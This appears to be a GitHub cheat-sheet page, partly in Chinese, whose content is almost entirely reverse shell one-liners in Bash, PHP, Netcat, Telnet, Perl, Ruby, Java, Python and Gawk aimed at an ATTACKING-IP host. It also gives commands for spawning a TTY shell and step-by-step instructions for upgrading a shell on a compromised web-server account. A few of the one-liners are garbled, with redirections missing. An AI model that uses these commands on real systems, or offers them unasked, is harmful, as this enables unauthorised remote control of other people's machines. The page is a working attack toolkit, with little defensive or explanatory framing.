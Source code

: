 ### From  Reverse Shell to Spawning a TTY Shell then Upgrade it

* [<em>Reverse shell</em>](#reverse-shell)
* [Spawning a TTY Shell](#spawning-a-tty-shell)
* [Upgrading TTY Shell](#upgrading-tty-shell)
* [Reference](#reference)

* [ChangeLog](#changelog)
#### *Reverse shell*

***Built-in Bash***

```bash
$ exec /bin/bash 0&0 2>&0
$ 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196


$ exec 5<>/dev/tcp/ATTACKING-IP/80
$ cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

$ while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
$ bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

***PHP Reverse Shell***

```PHP
$ php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

***Netcat Reverse Shell***

```bash
$ nc -e /bin/sh ATTACKING-IP 80

$ /bin/sh | nc ATTACKING-IP 80

$ rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

***Telnet Reverse Shell***

```bash
$ rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

$ telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

***Perl Reverse Shell***

```PERL
$ perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*Perl Windows Reverse Shell*

```BASH
$ perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```BASH
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***Ruby Reverse Shell***

```RUBY
$ ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

***Java Reverse Shell***

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

***Python Reverse Shell***

```PYTHON
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

***Gawk Reverse Shell***

```SHELL
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

#### Spawning a TTY Shell

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
- `lua: os.execute('/bin/sh')`
- `exec "/bin/sh"`  From within IRB
- `:!bash` From within vi
- `:set shell=/bin/bash:shell` From with wi

#### Upgrading TTY Shell

1. 升级成 *tty*

```bash
[www-data@targethosts]$ python -c 'import pty;pty.spawn("/bin/bash")'
```

2. 在 *shell* 中设置 *term* 类型为 *kali* 的 *term* 类型

```bash
root@kali# echo $TERM
					 xterm-256color
```

```bash
[www-data@targethosts]$ export TERM=xterm-256color
[www-data@targethosts]$ export SHELL=/bin/bash
```

3. 检查 *term* 的 *rows* 和 *columns*

```shell
root@kali# stty size
					 23		80
```

4. 将得到的 *shell* 放在后台运行

```bash
[www-data@targethosts]$ ^Z
												[1]+ Stopped   nc -lvp 449
												
[www-data@targethosts]$ stty raw -echo;fg
```

接着执行 *reset* 命令进行对 *shell* 初始化，并通过 *stty* 设置 *rows* 和 *columns*

```bash
[www-data@targethosts]$ stty raw -echo;fg
												nc -lvp 449
																		reset
																		
[www-data@targethosts]$ stty rows 23 columns 80
```

***tips*** ： 如果出现 `'xterm-256color': unknown terminal type.`，则说明 *targethosts* 不支持该终端，可以改为 `xterm`。



### Reference

- [upgrade-shell-to-fully-interactive-tty-shell/](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/)
- [reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)



### ChangeLog

- 1910713 init
